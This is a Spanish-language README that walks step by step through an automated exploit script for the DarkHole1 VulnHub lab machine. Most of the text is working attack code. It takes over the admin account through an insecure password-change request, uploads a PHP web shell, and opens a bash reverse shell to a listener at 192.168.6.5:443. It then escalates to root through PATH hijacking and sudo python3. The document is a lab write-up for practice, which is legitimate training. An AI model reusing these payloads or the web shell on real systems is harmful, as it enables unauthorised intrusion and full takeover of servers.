

# Autopwn - DarkHole1

En caso de no haber realizado la máquina DarkHole1, es recomendable revisar el [writeup](http://mrpr1ngl3s.github.io/vulnhub/darkhole1/ ) para comprender el autopwn.

<p align="center">
	
</p>

# Funcionamiento

En esta primera parte de código lo que realiza el script es la creación de un nuevo usuario, esto suponiendo que no se ha creado previamente otro, para no modificar el ID de la URL donde se cambia la contraseña “dashboard.php?id=2”

```python
def Register():

	data_post = {
		"username": "pr1ngl3s",
		"email": "pr1ngl3s@pr1ngl3s.com",
		"password": "pr1ngl3s"
	}

	r = requests.post(register_url, data=data_post)
```
La siguiente función con nombre "Login" se autentica con las credenciales enviadas con el método POST y para luego acceder a la URL del cambio de contraseña se utiliza el "session" para arrastrar la sesión y poder acceder.

```python
s = requests.session()
```

```python
def Login(username="admin",password="admin"):
	data_post = {
		"username": username,
		"password": password
	}

	r = s.post(login_url, data=data_post)
```

Para llamar a esa función se envía el nombre del usuario y la contraseña, por defecto es la misma "admin", ya que es la nueva contraseña que le pondremos a ese usuario, y lo ponemos por default para reutilizar la función en la parte de acceso como el usuario "admin"

```python
Login("pr1ngl3s","pr1ngl3s")
```

Para cambiar la contraseña se ejecuta la funcion "ChangePass" que envía la nueva contraseña que queremos que tenga, y el ID del usuario al cual se le quiere cambiar, en este caso es al usuario "admin" enviándolo con el método post y para poder acceder arrastramos la sesión con "session"

```python
def ChangePass():
    data_post = {
        "password": "admin",
        "id": "1"
    }

    r = s.post(main_url, data=data_post)
```

Ahora habiendo cambiado la contraseña al usuario "admin" accedemos como este reutilizando la función "Login" pero ahora sin enviar ningún valor a la llamada para que pille las de default, para arrastrar esa sesión y acceder al apartado de subida de archivos.

```python
Login()
```

Para subir el archivo, lo primero que hace el script es ejecuta la función 'MakeFile', la cual abre el archivo con permisos de escritura para añadir el contenido PHP necesario.

```python
def MakeFile():
	content = "<?php\n\tsystem($_GET['cmd']);\n?>"

	with open(file, "w") as archivo:
		archivo.write(content)
```

Luego la función 'UploadFile' abre el archivo en modo lectura binaria y el contenido con el nombre 'fileToUpload' lo envía a una solicitud POST arrastrando la sesión.

```python
def UploadFile():
	with open(file, "rb") as fupload:
		files = {"fileToUpload": fupload}

		r = s.post(upload_url,files=files)
```

Con el archivo ya subido accede a la URL que contiene el contenido de este, ejecutando la función "GetShell" por el método GET donde a nivel de parámetro está el payload que envía la shell inversa.

```python
def GetShell():
	url = "http://%s/upload/%s" % (IP,file)

	payload = {
		"cmd": "bash -c 'bash -i >& /dev/tcp/192.168.6.5/443 0>&1'"
	}

	r = requests.get(url,params=payload)
```

Pero ejecuta esa función en segundo plano, ya que para recibir la shell inversa debe estar primero en escucha por un puerto.

```python
multiprocessing.Process(target=GetShell).start()
```
Se pone en escucha durante 5 segundos y en ese tiempo, si recibe una petición, ejecuta de forma automática todos los pasos que se necesitan para realizar la escalada de privilegios.

```python
with listen(lport,timeout=5) as shell:
		if shell.wait_for_connection():
			shell.sendline("cd /home/john".encode('utf-8'))
			shell.sendline("echo 'bash' > /tmp/id".encode('utf-8'))
			shell.sendline("chmod +x /tmp/id".encode('utf-8'))
			shell.sendline("export PATH=/tmp:$PATH".encode('utf-8'))
			shell.sendline("./toto".encode('utf-8'))
			shell.sendline("echo '#!/usr/bin/python3\nimport os\nos.system(\"bash\")' > file.py".encode('utf-8'))
			shell.sendline("sudo -S /usr/bin/python3 /home/john/file.py".encode('utf-8'))
			shell.sendline("root123".encode('utf-8'))
			shell.interactive()
```


